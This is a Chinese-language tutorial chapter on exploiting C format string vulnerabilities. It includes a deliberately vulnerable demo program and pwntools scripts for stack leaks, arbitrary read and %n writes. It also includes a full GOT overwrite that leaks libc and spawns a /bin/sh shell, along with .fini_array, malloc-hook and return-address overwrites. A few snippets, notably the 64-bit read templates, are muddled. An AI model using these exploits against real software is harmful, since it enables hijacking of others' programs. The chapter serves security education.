


格式化字符串漏洞（Format String Vulnerability）是 C/C++ 中一类经典且极具威力的内存安全漏洞。与栈溢出不同，它不需要覆盖任何控制流数据——仅凭一个不受控的 `printf` 调用，攻击者就能实现任意内存读取和任意内存写入。在 CTF 竞赛和真实软件审计中，格式化字符串漏洞出现频率极高，且利用方式灵活多变，是二进制安全工程师必须彻底掌握的核心技能。

本章从格式化函数的底层机制出发，逐步讲解栈信息泄露、任意地址读取、任意地址写入的完整利用链，最后介绍自动化工具和防御方案。

## 1 格式化函数族与漏洞成因

### 1.1 C 标准库中的格式化函数

C 标准库提供了一系列格式化输出函数，它们共享同一个底层格式解析引擎：

| 函数 | 输出目标 | 典型用途 |
|------|----------|----------|
| `printf(format, ...)` | 标准输出 (stdout) | 终端打印 |
| `fprintf(stream, format, ...)` | 指定文件流 | 日志写入 |
| `sprintf(buf, format, ...)` | 字符缓冲区 | 字符串拼接 |
| `snprintf(buf, size, format, ...)` | 字符缓冲区（带长度限制） | 安全的字符串拼接 |
| `vprintf(format, va_list)` | 标准输出 | 可变参数包装 |
| `vfprintf(stream, format, va_list)` | 指定文件流 | 可变参数包装 |
| `vsprintf(buf, format, va_list)` | 字符缓冲区 | 可变参数包装 |
| `dprintf(fd, format, ...)` | 文件描述符 | 系统级输出 |
| `syslog(priority, format, ...)` | 系统日志 | 守护进程日志 |

所有这些函数都解析相同的格式化字符串语法，也都存在相同的漏洞风险：**当格式化字符串本身由攻击者控制时，漏洞就产生了。**

### 1.2 漏洞成因

格式化字符串漏洞的根本原因只有一个：**程序员将用户可控的输入直接作为格式化字符串参数传递。**

```c
// 危险写法 —— 用户输入直接作为 format
char buf[256];
fgets(buf, sizeof(buf), stdin);
printf(buf);           // 漏洞！

// 安全写法 —— 用户输入作为数据
printf("%s", buf);     // 安全
```

为什么 `printf(buf)` 有漏洞而 `printf("%s", buf)` 没有？关键在于 `printf` 的工作方式：

```c
// printf 的简化内部逻辑
int printf(const char *format, ...) {
    va_list ap;
    va_start(ap, format);
    
    for (const char *p = format; *p; p++) {
        if (*p == '%') {
            p++;
            // 解析格式说明符（如 %d, %s, %x, %n 等）
            // 根据说明符类型，从 va_list 中取出对应参数
            switch (*p) {
                case 'd': { int val = va_arg(ap, int); /* 打印整数 */ break; }
                case 's': { char *s = va_arg(ap, char*); /* 打印字符串 */ break; }
                case 'n': { int *p = va_arg(ap, int*); /* 写入已打印字符数 */ break; }
                // ...
            }
        } else {
            putchar(*p);
        }
    }
    va_end(ap);
}
```

当格式化字符串中包含 `%x`、`%p`、`%s`、`%n` 等格式说明符时，`printf` 会从栈上（或寄存器中，取决于调用约定）依次取参数。如果实际没有传递对应参数，`printf` 就会读取栈上的"垃圾数据"——而这些数据可能包含返回地址、栈帧指针、局部变量等敏感信息。

### 1.3 格式说明符完整参考

理解每个格式说明符的行为是利用格式化字符串漏洞的基础：

| 说明符 | 含义 | 漏洞利用中的作用 |
|--------|------|-----------------|
| `%d` / `%i` | 有符号十进制整数 | 读取栈上的整数值 |
| `%u` | 无符号十进制整数 | 同上 |
| `%x` | 十六进制整数（小写） | **最常用**：泄露栈数据 |
| `%X` | 十六进制整数（大写） | 同上 |
| `%o` | 八进制整数 | 读取栈数据 |
| `%s` | 字符串 | **关键**：将栈上的值作为地址，解引用读取该地址处的字符串——实现任意地址读取 |
| `%p` | 指针格式 | 泄露地址值（带 `0x` 前缀） |
| `%c` | 单个字符 | **关键**：配合 `%n` 实现精确写入，控制已打印字符数 |
| `%n` | 写入已打印字符数 | **核心**：向栈上值所指向的地址写入一个 int（4字节） |
| `%hn` | 写入 short | 向地址写入 2 字节（高 2 字节不变） |
| `%hhn` | 写入 char | 向地址写入 1 字节（仅改最低字节） |
| `%ln` | 写入 long | 在 64 位系统上写入 8 字节 |
| `%lln` | 写入 long long | 写入 8 字节 |
| `%%` | 转义的百分号 | 无利用价值 |

**宽度修饰符**在利用中至关重要：

```text
%10c    — 打印10个字符宽度（不足用空格填充），使已打印字符计数增加到10
%100c   — 打印100个字符宽度
%2147483647c — 打印 2^31-1 个字符宽度（用于构造大数值写入）
```

**位置参数（Positional Parameter）**是格式化字符串利用的基石：

```text
%1$x    — 取第1个参数，以十六进制打印（x86: 第1个栈参数，x64: rsi）
%2$x    — 取第2个参数
%6$x    — 取第6个参数
%10$n   — 取第10个参数作为地址，向该地址写入已打印字符数
%10$hn  — 取第10个参数作为地址，写入 2 字节
%10$hhn — 取第10个参数作为地址，写入 1 字节
```

没有位置参数时，`printf` 从栈上顺序取值；使用位置参数时，`printf` 直接跳到指定的栈偏移处取值。**在格式化字符串利用中，几乎总是使用位置参数来精确定位输入缓冲区在栈上的位置。**

## 2 漏洞利用的三个阶段

格式化字符串漏洞的利用可以分为三个阶段，每个阶段都是后续阶段的基础：



### 2.1 阶段一：栈数据泄露与偏移确定

这是最基础也最关键的步骤。目标有两个：确定输入缓冲区在栈上的偏移位置，以及泄露有用的栈数据。

```c
// fmt_leak.c — 演示用目标程序
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buf[64];
    setbuf(stdout, NULL);  // 关闭缓冲，方便交互
    
    printf("请输入: ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);  // 格式化字符串漏洞
    printf("\n");
    
    return 0;
}
```

编译时需要关闭栈保护、开启栈可执行（便于演示）：

```bash
gcc -o fmt_leak fmt_leak.c -no-pie -fno-stack-protector -z execstack -m32
```

#### 2.1.1 确定偏移量

输入一串标记性的格式说明符，观察输出中的哪一项是我们的输入：

```python
from pwn import *

p = process('./fmt_leak')

# 方法一：用连续的 %x 探测
p.sendline(b'AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x')
p.recvuntil(b'AAAA')
print(f"输出: {p.recvline()}")

# 方法二：用标记值 + 序号定位
# 在输入中放入一个易识别的值，如 0x41414141 = "AAAA"
p.sendline(b'AAAA%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x')
p.recvuntil(b'AAAA')
print(f"输出: {p.recvline()}")
```

典型的 x86 (32位) 输出结果：

```text
AAAA41414141.f7fc65c0.f7fc65c0.0.0.ffffd4c8.4011a3.41414141
```

在输出中搜索 `41414141`（即 "AAAA" 的十六进制表示）。如果出现在第 7 个参数的位置（`%7$x`），说明输入缓冲区在栈上的偏移为 7。这意味着：

- `%7$x` 会读取缓冲区起始处的 4 字节
- `%7$s` 会将缓冲区起始处的 4 字节作为地址，读取该地址处的字符串
- `%7$n` 会将已打印的字符数写入缓冲区起始处的 4 字节所指向的地址

**在 x64 系统上**，前 6 个整数/指针参数通过寄存器传递（rdi, rsi, rdx, rcx, r8, r9），第 7 个参数开始才在栈上。因此偏移量通常更大：

```bash
gcc -o fmt_leak fmt_leak.c -no-pie -fno-stack-protector -z execstack
```

```python
# x64 偏移量通常在 6-10 之间
p.sendline(b'AAAA%6$lx.%7$lx.%8$lx.%9$lx.%10$lx.%11$lx')
```

#### 2.1.2 自动化偏移查找

手动查找偏移是低效的，可以写一个自动化脚本：

```python
def find_fmt_offset(io, marker=0x41414141, max_offset=50):
    """自动查找格式化字符串偏移量
    
    Args:
        io: pwntools process 对象
        marker: 标记值（应出现在输入中）
        max_offset: 最大探测偏移
    
    Returns:
        int: 偏移量，未找到返回 -1
    """
    marker_bytes = p32(marker) if context.arch == 'i386' else p64(marker)
    
    for i in range(1, max_offset + 1):
        io.sendline(marker_bytes + f'%{i}$x'.encode())
        io.recvuntil(marker_bytes)
        try:
            leaked = int(io.recvline().strip(), 16)
            if leaked == marker:
                return i
        except ValueError:
            continue
    return -1

# 使用
offset = find_fmt_offset(p)
print(f"偏移量: {offset}")  # 通常输出 7（32位）或 8-10（64位）
```

#### 2.1.3 pwntools 自动化工具

pwntools 提供了 `FmtStr` 类来自动完成偏移查找和 payload 生成：

```python
from pwn import *

p = process('./fmt_leak')

# 自动查找偏移
def send_fmt(payload):
    p.sendline(payload)
    return p.recvline()

# FmtStr 会自动探测偏移
fmt = FmtStr(execute_fmt=send_fmt)
print(f"自动检测到偏移: {fmt.offset}")

# 之后可以用 fmt.write(addr, val) 和 fmt.execute_writes()
```

### 2.2 阶段二：任意地址读取

一旦知道了偏移量，就可以利用 `%s` 说明符实现任意地址读取。原理是：将目标地址放入输入缓冲区中对应偏移的位置，`printf` 解析 `%s` 时会将该地址作为指针去读取字符串。

#### 2.2.1 基本任意读

```python
from pwn import *

p = process('./fmt_leak')
offset = 7  # 已知偏移量

target_addr = 0x0804a020  # 想要读取的地址（如某个 GOT 表项）

# 构造 payload：在偏移位置放上目标地址
# 对于 32 位：直接在缓冲区对应位置放 4 字节地址
padding = b'%7$s'  # 注意：先用 %s
# 但这样不行——需要让地址正好落在偏移位置

# 正确方法：先填充到偏移位置，然后放地址
# 偏移 = 7，说明缓冲区起始在第 7 个参数
# %7$s 会读取缓冲区前 4 字节作为地址
# 所以直接把地址放在 payload 开头
payload = p32(target_addr) + b'AAAA'  # 地址在最前面
# 然后用 %7$s 读取它
# 但地址本身包含的字节可能干扰格式化字符串解析
# 更好的方法是使用直接参数访问

# 最简方法：地址放在偏移位置
payload = b'A' * 0 + p32(target_addr)  # 地址放在缓冲区最前面
payload += b'.' + b'%7$s'  # %7$s 读取缓冲区开头的地址
# 但这会导致解析问题——地址字节可能包含 % \x00 等特殊字符

# 实际上最常用的写法：
# 将地址放在 payload 末尾（偏移更大的位置），用位置参数指定
# 假设偏移是 7，地址放在第 7 个位置之后
# 这需要计算地址在参数列表中的位置
```

更实际的做法是：地址放在缓冲区开头，用 `%<offset>$s` 直接读取：

```python
from pwn import *

p = process('./fmt_leak')
offset = 7

target_addr = 0x0804a020

# 地址放在 payload 开头，用 %<offset>$s 读取
# 如果地址开头有 null 字节，需要特殊处理
# 32 位地址通常不含 null（如 0x0804a020），可以直接放
payload = p32(target_addr)
payload += b'%7$s'

p.sendline(payload)
p.recvuntil(p32(target_addr))
leaked = u32(p.recv(4))
print(f"读取到的值: {hex(leaked)}")

p.close()
```

#### 2.2.2 64 位系统的特殊处理

在 64 位系统上，地址通常包含 `\x00` 字节（如 `0x0000000000601020`），而 `printf` 遇到 `\x00` 就会停止解析。因此必须把地址放在 payload 的末尾：

```python
from pwn import *

context.arch = 'amd64'
p = process('./fmt_leak')
offset = 8  # 假设 64 位偏移为 8

target_addr = 0x404020  # 不含 null 的地址可以直接用
# 如果地址含 null（如 0x0000000000404020），需要放在末尾

# 计算地址在 payload 末尾时对应的参数偏移
# payload = "AAAA%<new_offset>$s" + padding + addr
# 需要对齐到 8 字节边界

# 方法：用 %<offset>$s + padding 把地址放到末尾
# 假设偏移是 8，我们想把地址放在第 10 个参数位置
# payload 格式: "AAAA%10$s" + padding + p64(addr)
# 其中 "AAAA%10$s" 占 9 字节，padding 到对齐

# 简单做法：直接用 %<offset>$s，地址放最前面
# 对于不含 null 的地址
payload = p64(target_addr)
payload += b'%8$s'
# 如果地址正好是 8 字节且不含 null，这可以工作

# 对于含 null 的地址，放末尾：
# fmt_payload = fmt_str + padding_to_align + p64(addr)
# 计算 fmt_str 的长度来确定新偏移
```

一个通用的 64 位任意读模板：

```python
def fmt_arbitrary_read_64(p, offset, target_addr):
    """64 位格式化字符串任意地址读取"""
    
    # 地址放在末尾，需要计算它对应的参数位置
    # 每个参数占 8 字节（64 位）
    # payload = "AAAA%<new_off>$sAAAA" + padding + p64(addr)
    # 需要把地址对齐到 8 字节
    
    # 尝试将地址放在缓冲区的不同偏移处
    # 先用填充把地址推到正确的参数位置
    for extra_pad in range(8):
        # 构造前半部分
        prefix = f'%{offset + 1}$s'.encode()
        # 补齐到 8 字节对齐
        padding_len = (8 - len(prefix) % 8) % 8
        prefix += b'A' * padding_len
        
        # 前半部分占了多少字节
        prefix_len = len(prefix)
        # 地址在前半部分之后，它在参数列表中的位置
        # offset 个参数占 offset * 8 字节
        # 我们的 payload 从缓冲区开头开始
        # 需要让地址正好落在参数 (offset+1) 的位置
        # 而 prefix 中的 %{offset+1}$s 读的就是那个位置
        
        # 简化：直接计算
        payload = prefix + p64(target_addr)
        
        p.sendline(payload)
        response = p.recv(timeout=2)
        if b'\x00' not in response or target_addr in [u64(response[i:i+8]) for i in range(len(response)-7)]:
            return response
    
    return None
```

### 2.3 阶段三：任意地址写入

这是格式化字符串漏洞最强大的能力。`%n` 格式说明符会将 `printf` 已经打印的字符数量写入到一个指针所指向的地址。如果攻击者能控制这个指针，就能向任意地址写入任意值。

#### 2.3.1 `%n` 写入机制详解

```c
int count = 0;
printf("AAAA%n", &count);  // count = 4（已打印 4 个字符）
printf("%10c%n", 'X', &count);  // count = 10（%10c 打印 10 字符宽）
printf("%100c%n", 'X', &count);  // count = 100
```

在漏洞利用中，"指针"来自输入缓冲区中预先放置的地址值，而"已打印字符数"通过 `%<width>c` 来精确控制。

#### 2.3.2 单字节写入（`%hhn`）

`%hhn` 写入 1 字节（仅修改目标地址的最低字节），这是最精确的写入方式：

```python
# 目标：向 addr 写入 0x41 (即 'A')
# 构造：先打印 0x41 = 65 个字符，然后用 %hhn 写入

from pwn import *

p = process('./fmt_leak')
offset = 7

target_addr = 0x0804a020
target_val = 0x41  # 要写入的值

# payload = p32(addr) + padding + %<width>c + %<offset>$hhn
# 但地址可能包含特殊字符，需要先计算

# 简单示例：写入 0x41 = 65
# 已经打印了 4 字节（地址本身），还需要打印 61 字节
addr_bytes = p32(target_addr)
width = target_val - len(addr_bytes)  # 65 - 4 = 61

payload = addr_bytes
payload += f'%{width}c%{offset}$hhn'.encode()

p.sendline(payload)
p.recv(timeout=1)

# 验证写入
p.sendline(p32(target_addr) + b'%7$s')
p.recvuntil(p32(target_addr))
leaked = p.recv(4)
print(f"写入验证: {leaked}")  # 应该包含 0x41
```

#### 2.3.3 两字节写入（`%hn`）

`%hn` 写入 2 字节（一个 short），适用于写入较小的值或分两次写入 4 字节值：

```python
# 目标：向 addr 写入 0x1234
target_val = 0x1234

# 分为低 2 字节和高 2 字节（对于 4 字节值）
# 但实际上 %hn 一次写 2 字节
# 如果值 <= 0xffff，一次 %hn 就够了

low = target_val & 0xffff  # 0x1234
# 需要打印 low 个字符，然后用 %hn 写入
# 但 low = 0x1234 = 4660，需要打印 4660 个字符——可能很慢

# 更好的方法：用 %hhn 逐字节写入（见下一节）
```

#### 2.3.4 多字节写入策略

写入一个完整的 32 位地址（如 `0xdeadbeef`）需要将其拆分为多个字节，逐个写入：

```text
目标值：0xdeadbeef
字节拆分：
  字节 0: 0xef (239)
  字节 1: 0xbe (190)
  字节 2: 0xad (173)
  字节 3: 0xde (222)

地址拆分：
  addr + 0: 写入 0xef
  addr + 1: 写入 0xbe
  addr + 2: 写入 0xad
  addr + 3: 写入 0xde
```

**关键优化：按写入值从小到大排序**，这样每次只需增量打印，避免需要打印 256 个字符的回绕：

```python
def build_fmt_write(offset, writes):
    """构造格式化字符串写入 payload
    
    Args:
        offset: 输入缓冲区在栈上的偏移
        writes: {地址: 值} 的字典，值为要写入的字节值
    
    Returns:
        bytes: 构造好的 payload
    """
    # 将每个字节写入拆分为 (地址, 值) 对
    byte_writes = []
    for addr, val in writes.items():
        for i in range(4):  # 4 字节
            byte_val = (val >> (i * 8)) & 0xff
            byte_writes.append((addr + i, byte_val))
    
    # 按写入值排序
    byte_writes.sort(key=lambda x: x[1])
    
    # 计算地址块的大小
    # 每个地址 4 字节，共 len(byte_writes) 个地址
    addr_block_size = len(byte_writes) * 4
    
    # 地址块放在 payload 开头
    payload = b''
    for addr, _ in byte_writes:
        payload += p32(addr)
    
    # 格式说明符
    current_printed = addr_block_size
    
    for i, (_, val) in enumerate(byte_writes):
        # 需要再打印多少字符才能达到目标值
        # 如果当前已打印 > 目标值，需要绕一圈（+256）
        to_print = val - current_printed
        if to_print < 0:
            to_print += 256
        
        if to_print == 0:
            payload += f'%{offset + i}$hhn'.encode()
        else:
            payload += f'%{to_print}c%{offset + i}$hhn'.encode()
        
        current_printed = (current_printed + to_print) % 256
    
    return payload
```

#### 2.3.5 pwntools 自动化：`fmtstr_payload`

在实际 CTF 和漏洞利用中，几乎不需要手动构造 payload。pwntools 提供了 `fmtstr_payload` 函数，自动完成所有计算：

```python
from pwn import *

context.arch = 'i386'
p = process('./fmt_leak')
offset = 7

# fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
# 
# offset: 输入在栈上的偏移
# writes: {地址: 值} 字典
# numbwritten: printf 之前已经打印的字符数
# write_size: 'byte' (%hhn), 'short' (%hn), 'int' (%n)

# 示例：向 0x0804a020 写入 0xdeadbeef
payload = fmtstr_payload(offset, {0x0804a020: 0xdeadbeef})
p.sendline(payload)
```

`fmtstr_payload` 的内部实现已经处理了：
- 字节拆分和排序
- 地址对齐
- 宽度计算（包括 256 的回绕）
- 格式说明符的构造

在绝大多数情况下，直接使用 `fmtstr_payload` 就够了。但理解其底层原理对于调试和处理特殊情况至关重要。

## 3 经典利用场景

### 3.1 GOT 表覆写

Global Offset Table (GOT) 覆写是格式化字符串漏洞最常见的利用方式。GOT 表存储了外部函数（如 `printf`、`puts`、`system`）的实际地址，程序每次调用这些函数时都会先查 GOT 表。

**目标**：将 GOT 表中某个函数（如 `printf`）的地址覆写为 `system` 的地址。之后当程序再次调用 `printf("/bin/sh")` 时，实际执行的是 `system("/bin/sh")`。



完整利用脚本：

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'info'

elf = ELF('./vuln')
p = process('./vuln')

# ---- 第一步：确定偏移 ----
def send_fmt(payload):
    p.sendline(payload)
    return p.recvline()

fmt = FmtStr(execute_fmt=send_fmt)
offset = fmt.offset
log.success(f"偏移量: {offset}")

# ---- 第二步：泄露 libc 基地址 ----
# 读取 GOT 表中某个已解析的函数地址
# 如 puts@GOT（puts 在程序中已经被调用过，GOT 表项已填入 libc 地址）
puts_got = elf.got['puts']

# 用 %s 读取 GOT 表项
p.sendline(p32(puts_got) + f'%{offset}$s'.encode())
p.recvuntil(p32(puts_got))
puts_addr = u32(p.recv(4))
log.success(f"puts@libc: {hex(puts_addr)}")

# 计算 libc 基地址
# 需要知道 libc 中 puts 的偏移
# 可以通过 libcdb 查询，或者手动指定 libc 文件
libc = ELF('/lib/i386-linux-gnu/libc.so.6')  # 根据实际 libc 调整
libc.address = puts_addr - libc.symbols['puts']
log.success(f"libc base: {hex(libc.address)}")

system_addr = libc.symbols['system']
log.success(f"system@libc: {hex(system_addr)}")

# ---- 第三步：覆写 GOT 表 ----
# 将 printf@GOT 覆写为 system 地址
printf_got = elf.got['printf']

# 使用 fmtstr_payload 自动生成 payload
payload = fmtstr_payload(offset, {printf_got: system_addr})
p.sendline(payload)
p.recv(timeout=2)

# ---- 第四步：触发 system("/bin/sh") ----
# 程序再次调用 printf(input) 时，实际执行 system(input)
p.sendline(b'/bin/sh')
p.interactive()
```

### 3.2 覆写 `.fini_array` 程序退出时执行 shellcode

当 GOT 表受 RELRO 保护时，可以选择覆写 `.fini_array`。这个数组中的函数指针会在程序正常退出时被调用：

```python
from pwn import *

context.arch = 'i386'

elf = ELF('./vuln')
p = process('./vuln')
offset = 7

# .fini_array 的地址（通过 readelf -S 查找）
fini_array = 0x08049f14

# 将 .fini_array 覆写为某个有用的函数地址
# 如 one_gadget 或 shellcode 地址

# 方法一：覆写为 one_gadget
# libc 中的 one_gadget 地址需要先泄露 libc

# 方法二：如果栈可执行，覆写为栈上的 shellcode 地址
# 需要泄露栈地址

# 泄露栈地址（如通过 %p 泄露 ebp）
p.sendline(b'%15$p')
ebp = int(p.recvline().strip(), 16)
log.success(f"ebp: {hex(ebp)}")

# 计算 shellcode 在栈上的位置
shellcode_addr = ebp - 0x60  # 偏移需要调试确认

# 覆写 .fini_array 为 shellcode 地址
payload = fmtstr_payload(offset, {fini_array: shellcode_addr})
p.sendline(payload)
p.recv(timeout=1)

# 在栈上布置 shellcode
# 这里需要另一次输入来放入 shellcode
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)

# 触发程序退出，执行 .fini_array 中的函数
# 可能需要发送 EOF 或等待超时
p.close()
```

### 3.3 覆写 `__malloc_hook` / `__free_hook`

在 glibc 2.26 之前，`__malloc_hook` 和 `__free_hook` 是两个函数指针，分别在 `malloc` 和 `free` 被调用时触发。将它们覆写为 `system` 或 `one_gadget` 是非常常见的利用手法：

```python
from pwn import *

context.arch = 'amd64'

# 泄露 libc 地址后...
# __malloc_hook 在 libc 中的偏移
malloc_hook = libc.symbols['__malloc_hook']

# 方法一：覆写为 one_gadget
# one_gadget 地址需要通过 one_gadget 工具查找
# one_gadget /lib/x86_64-linux-gnu/libc.so.6
one_gadget = libc.address + 0x45226  # 示例偏移，实际需要查找

payload = fmtstr_payload(offset, {malloc_hook: one_gadget}, write_size='short')

# 注意：fmtstr payload 可能很长，需要多次输入
# 如果程序只允许一次输入，可能需要分段发送
# 或者使用更紧凑的 %hn 写入策略
```

### 3.4 覆写返回地址

如果程序没有 PIE 且栈布局已知，可以直接覆写栈上的返回地址：

```python
from pwn import *

context.arch = 'i386'
p = process('./vuln')
offset = 7

# 通过调试确定返回地址在栈上的位置
# 假设返回地址在 ebp + 4
# 先泄露 ebp
p.sendline(b'%15$p')
ebp = int(p.recvline().strip(), 16)
ret_addr = ebp + 4

# 覆写返回地址为 system 地址（需要先泄露 libc）
# ... 泄露 libc 基地址 ...
system_addr = libc.symbols['system']

# 覆写返回地址
payload = fmtstr_payload(offset, {ret_addr: system_addr})
p.sendline(payload)
p.recv(timeout=1)

# 布置 ROP chain 或直接跳到 system
# 返回地址被覆写后，需要在栈上布置参数
# 这通常需要配合栈溢出来实现
```

### 3.5 格式化字符串 + 栈溢出组合利用

格式化字符串漏洞和栈溢出的组合可以实现更强大的利用：

```python
# 场景：程序有两个函数
# 函数 A 有格式化字符串漏洞（可以读写内存）
# 函数 B 有栈溢出（可以控制 eip）
# 但函数 B 需要特定条件才能触发（如一个 flag 变量需要为真）

# 步骤一：通过格式化字符串漏洞修改 flag 变量
flag_addr = 0x0804a030
payload = fmtstr_payload(offset, {flag_addr: 1})
p.sendline(payload)

# 步骤二：触发函数 B，利用栈溢出 getshell
# ...
```

## 4 x64 格式化字符串利用的特殊挑战

64 位系统的格式化字符串利用有几个显著不同于 32 位系统的挑战：

### 4.1 地址中的 null 字节

64 位地址通常以 `\x00` 开头（如 `0x0000000000404020`），而 `printf` 遇到 `\x00` 就停止解析。这意味着不能把地址放在 payload 的开头（在格式说明符之前）。

**解决方案**：将地址放在 payload 的末尾：

```python
# 64 位：地址放末尾
# 假设偏移是 8
# payload = "%9$s" + padding + p64(addr)
# 但需要确保 addr 正好落在第 9 个参数的位置

# 计算方法：
# 格式字符串部分的长度需要对齐到 8 字节
fmt_str = b'%9$s'
# 补齐到 8 字节
padding_len = (8 - len(fmt_str) % 8) % 8
fmt_str += b'A' * padding_len
# 现在 fmt_str 是 8 字节对齐的
# p64(addr) 紧随其后，它在缓冲区中的偏移 = len(fmt_str) / 8
# 如果偏移原来是 8，现在地址在第 8 + len(fmt_str)/8 个参数
# 需要调整格式字符串中的参数编号
```

一个实用的 64 位任意读模板：

```python
def fmt_read_64(p, offset, target_addr):
    """64 位格式化字符串任意读，地址放末尾"""
    # 尝试不同的对齐方式
    for pad in range(8):
        # 构造前缀
        extra = pad
        # 地址在缓冲区中的位置
        addr_pos = offset + (8 + extra) // 8
        # 格式字符串
        fmt = f'%{addr_pos}$s'.encode()
        fmt += b'A' * (extra + 8 - len(fmt) % 8) if len(fmt) % 8 != 0 else b''
        # 确保总长度是 8 的倍数
        while len(fmt) % 8 != 0:
            fmt += b'A'
        
        # 地址实际在第几个参数
        actual_pos = offset + len(fmt) // 8
        
        payload = fmt.replace(f'%{addr_pos}$s'.encode(), f'%{actual_pos}$s'.encode())
        payload += p64(target_addr)
        
        p.sendline(payload)
        try:
            result = p.recvuntil(p64(target_addr), timeout=2)
            leak = p.recv(6, timeout=2)
            if len(leak) == 6:  # 有效地址通常是 6 字节（低 48 位）
                return u64(leak.ljust(8, b'\x00'))
        except:
            continue
    
    return None
```

### 4.2 寄存器参数

x64 调用约定中，前 6 个整数/指针参数通过 rdi, rsi, rdx, rcx, r8, r9 传递。`printf` 在处理格式字符串时，会将这些寄存器的值映射为前 6 个参数：

```text
%1$lx → rsi（第一个参数，因为 rdi 是 format 字符串本身）
%2$lx → rdx
%3$lx → rcx
%4$lx → r8
%5$lx → r9
%6$lx → 栈上第一个参数
%7$lx → 栈上第二个参数
...
```

注意：不同系统和编译器的行为可能不同，`rdi` 可能对应 `%1$` 也可能不对应（取决于 `printf` 的实现）。实际利用时需要通过实验确认。

### 4.3 payload 长度限制

64 位系统的 payload 通常更长（地址 8 字节 vs 4 字节），加上地址放在末尾需要额外 padding，一次输入可能放不下完整的 payload。

**解决策略**：
- 使用 `%hn`（2 字节写入）减少格式说明符数量
- 分多次输入完成写入（如果程序允许循环读取）
- 使用更紧凑的 payload 结构

## 5 格式化字符串漏洞变体

### 5.1 `printf` 的返回值利用

`printf` 返回实际打印的字符数。在某些场景中，返回值被程序用于后续逻辑（如栈变量的条件判断）。攻击者可以通过控制格式字符串来操纵返回值：

```c
int len = printf(input);
if (len > 100) {
    // 触发某个分支
}
```

通过输入 `%100c`，可以将 `printf` 的返回值设为 100，从而触发条件分支。

### 5.2 `sprintf` / `snprintf` 的格式化字符串漏洞

当 `sprintf` 的目标缓冲区在栈上时，格式化字符串漏洞的利用方式与 `printf` 完全一致。但 `sprintf` 的目标缓冲区也可能在堆上——此时 `%n` 写入仍然有效，只是写入的目标地址由栈上的值决定。

```c
char *heap_buf = malloc(256);
char input[64];
fgets(input, sizeof(input), stdin);
sprintf(heap_buf, input);  // 格式化字符串漏洞
// heap_buf 本身在堆上，但 %n 写入的目标地址来自栈
```

### 5.3 堆上的格式化字符串

